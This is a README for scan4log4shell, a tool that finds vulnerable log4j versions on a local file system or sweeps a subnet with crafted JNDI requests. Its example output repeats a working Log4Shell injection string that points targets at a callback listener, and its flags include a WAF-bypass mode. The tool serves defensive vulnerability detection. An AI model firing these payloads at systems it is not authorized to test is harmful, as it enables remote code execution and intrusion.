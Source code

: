 # scan4log4shell
> Scanner to detect vulnerable log4j versions on your file-system or to send specially crafted requests and catch callbacks of systems that are impacted by log4j log4shell vulnerability (CVE-2021-44228)

CVE-2021-44228 is a remote code execution (RCE) vulnerability in Apache Log4j 2. An unauthenticated, remote attacker could exploit this flaw by sending a specially crafted request to a server running a vulnerable version of log4j. The crafted request uses a Java Naming and Directory Interface (JNDI) injection via a variety of services including:
- Lightweight Directory Access Protocol (LDAP)
- Secure LDAP (LDAPS)
- Remote Method Invocation (RMI)
- Domain Name Service (DNS)

## Usage 
```bash
Usage:
  scan4log4shell [command]

Available Commands:
  completion  Prints shell autocompletion scripts for scan4log4shell
  help        Help about any command
  local       Detect vulnerable log4j versions on your file-system
  remote      Send specially crafted requests and catch callbacks of systems that are impacted by log4j log4shell vulnerability

Flags:
  -h, --help            help for scan4log4shell
  -o, --output string   output logfile name
  -v, --verbose         print detailed logging messages
      --version         version for scan4log4shell

Use "scan4log4shell [command] --help" for more information about a command.
```

## Local
Detect vulnerable log4j versions on your file-system
```bash
Usage:
  scan4log4shell local [paths] [flags]

Flags:
  -e, --exclude stringArray      path to exclude
  -h, --help                     help for local
      --ignore-ext stringArray   ignore .jar | .zip | .war | .ear | .aar
      --ignore-v1                ignore log4j 1.x versions
      --print-summary            print a summary

Global Flags:
  -o, --output string   output logfile name
  -v, --verbose         print detailed logging messages
```

### Example
```bash
make run-local

scanner_1  | 2021/12/16 07:32:25 [i] Log4Shell CVE-2021-44228 Local Vulnerability Scan
scanner_1  | 2021/12/16 07:32:25 [i] Start scanning path /walk
scanner_1  | ---------
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-1.2-api-2.14.0-javadoc.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-1.2-api-2.14.0-sources.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-1.2-api-2.14.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-api-2.14.0-javadoc.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-api-2.14.0-sources.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-api-2.14.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-core-2.14.0.jar...
scanner_1  | 2021/12/16 07:32:25 [!] Possibly vulnerable file identified: /walk/apache-log4j-2.14.0-bin/log4j-core-2.14.0.jar
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.15.0-bin/log4j-api-2.15.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.15.0-bin/log4j-core-2.15.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.15.0-bin/log4j-spring-boot-2.15.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.16.0-bin/log4j-api-2.16.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.16.0-bin/log4j-core-2.16.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/jakarta-log4j-1.2.8/dist/lib/log4j-1.2.8.jar...
scanner_1  | 2021/12/16 07:32:25 [!] Log4j V1 identified: /walk/jakarta-log4j-1.2.8/dist/lib/log4j-1.2.8.jar
scanner_1  | 2021/12/16 07:32:25 [i] Completed scanning
```
## Remote
Send specially crafted requests and catch callbacks of systems that are impacted by log4j log4shell vulnerability
```
Usage:
  scan4log4shell remote [flags]

Flags:
      --caddr string            address to catch the callbacks (eg. ip:port)
      --cidr string             subnet to scan (default "192.168.1.0/28")
  -h, --help                    help for remote
      --listen                  start a listener to catch callbacks
      --no-user-agent-fuzzing   exclude user-agent header from fuzzing
  -p, --port stringArray        port to scan (default [8080])
      --proxy string            proxy url
      --schema string           schema to use for requests (default "https")
  -t, --type string             get, post or json (default "get")
      --waf-bypass              extend scans with WAF bypass payload
  -w, --wait duration           wait time to catch callbacks (default 5s)

Global Flags:
  -o, --output string   output logfile name
  -v, --verbose         print detailed logging messages
```
### Example
```bash
make run-remote

scanner_1  | 2021/12/16 09:57:24 [i] Log4Shell CVE-2021-44228 Remote Vulnerability Scan
scanner_1  | 2021/12/16 09:57:24 [i] Listening on 172.20.0.30:4444
scanner_1  | 2021/12/16 09:57:24 [i] Start scanning CIDR 172.20.0.0/24
scanner_1  | ---------
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} http://172.20.0.0:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} http://172.20.0.1:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} http://172.20.0.2:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} http://172.20.0.3:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} http://172.20.0.4:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} http://172.20.0.5:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} http://172.20.0.6:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} http://172.20.0.7:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} http://172.20.0.8:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} http://172.20.0.9:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} http://172.20.0.10:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} http://172.20.0.11:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} http://172.20.0.12:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} http://172.20.0.13:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} http://172.20.0.14:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} http://172.20.0.15:8080
scanner_1  | 2021/12/16 09:57:24 [!] Possibly vulnerable host identified: 172.20.0.13:60614
```

## References
- https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592
- https://nvd.nist.gov/vuln/detail/CVE-2021-44228


## License
[MIT](LICENCE)
